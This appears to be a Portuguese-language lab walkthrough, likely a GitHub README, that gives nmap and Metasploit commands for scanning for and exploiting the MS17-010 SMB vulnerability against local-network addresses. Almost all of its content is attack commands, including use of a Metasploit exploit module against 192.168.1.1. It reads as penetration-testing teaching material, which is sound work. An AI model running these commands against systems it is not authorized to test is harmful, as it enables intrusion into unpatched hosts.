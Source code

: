 git clone https://github.com/vaamonde/nmap-nse-scripts
 
git clone https://github.com/vaamonde/exploit

Verificar versão do NMAP:<br>	nmap --version<br>
				man nmap<br>
							
nmap -d -sC -p445 --open --max-hostgroup 3 --script nmap-nse-scripts/scripts/smb-vuln-ms17-010.nse localhost<br>

nmap -d -sC -p445 --open --max-hostgroup 3 --script nmap-nse-scripts/scripts/smb-vuln-ms17-010.nse 192.168.1.0/24<br>

nmap -d -sC -p445 --open --max-hostgroup 3 --script nmap-nse-scripts/scripts/smb-vuln-ms17-010.nse 192.168.1.150<br>

Atualizar o Metasploit:		msfupdate<br>
Acessar o Metasploit:		msfconsole<br>
Acessar o Modo Scan:		use auxiliary/scanner/smb/smb_ms17_010<br>
				show options<br>
				set rhosts 192.168.1.1<br>
				exploit<br>
							
Acessar o modo Exploit:		use exploit/ms17_010/ms_17_010<br>
				show options<br>
				set rhosts 192.168.1.1<br>
				exploit<br>
